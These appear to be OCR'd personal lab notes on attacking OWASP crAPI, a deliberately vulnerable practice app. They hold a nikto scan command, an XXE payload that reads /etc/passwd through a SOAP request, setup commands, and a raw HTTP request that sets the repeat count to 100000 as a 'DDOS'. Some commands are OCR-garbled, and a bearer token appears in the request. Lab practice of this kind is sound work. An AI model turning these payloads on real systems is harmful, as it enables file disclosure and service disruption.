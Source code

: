 - first partical 
- nikto -h http://192.168.0.105/ -useproxy http://127.0.0.1:8080
- use this payload  

```bash
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE root [ <!ENTITY exploit SYSTEM "file:///etc/passwd"> ]> <soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:examples:usernameservice"> <soapenv:Header/> <soapenv:Body> <urn:Username soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"> <username xsi:type="xsd:string">&exploit;</username> </urn:Username> </soapenv:Body> </soapenv:Envelope> 
```


## setting up crAPI
 
```bash
wget https://github.com/OWASP/crAPI/archive/refs/heads/develop.zip
apt install unzip -y
apt install nano - y
unzip develop. zip
cd crAPI-develop/deploy/docker/
1s - 1a
nano. env #Change IP to 0.0.0.0 from 127.0.0.1
docker compose pull
docker compose -f docker-compose.yml - compatibility up -d
configure your browser with zap/burp
visit IP:8888 and create an account and login
visit IP:8025 open email to find VIN and PIN
go back to crAPI and click on ad vehicle add the vehicle with the VIN and PIN
N V
then do enumeration. 
```


### DDOS Attack 
- make false - true 
- make number_of_repeats":100000
```bash
POST /workshop/api/merchant/contact_mechanic HTTP/1.1
Host: 192.168.0.105:8888
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.0.105:8888/contact-mechanic?VIN=0TQQQ37LWFY702888
Content-Type: application/json
Authorization: Bearer eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJ4ZW5hZm8zOTIwQGphemlwby5jb20iLCJpYXQiOjE3NDY5NjAyMjcsImV4cCI6MTc0NzU2NTAyNywicm9sZSI6InVzZXIifQ.mayafIxvCuC3AQ2sYH56XUrKOi9Eduh2mVCwWMGbLVEA9jh405LbAEaJcdIqqCYTbWeIR70SPgw7VjR5fN9ydewyziNSUB4HmFbvy3URtsKlrOTw7MYRlwHNhuJyg-4ZhvGWlrDhAuFywmQcij8S6h_vMzaBEm1Av64lyjpb00fwBIY0e37AoEAoGqG1xCAPBTYrzs7otylLprYv2adspWnJ5xD5ANayWF-FYUBgZq-pT4Q84YjBecGvMg5CrerXe1Dx_wDMCs8A-scDEU2WkebumMnOXF3MxY1xfebqBhVbRLkelvGgFCmYH9FmLQg56l5-8ze2Eqg_j1qpWaVJVA
Content-Length: 212
Origin: http://192.168.0.105:8888
Connection: keep-alive
Priority: u=0

{"mechanic_code":"TRAC_JME","problem_details":"aa","vin":"0TQQQ37LWFY702888","mechanic_api":"http://192.168.0.105:8888/workshop/api/mechanic/receive_report","repeat_request_if_failed":true,"number_of_repeats":100000} 
```

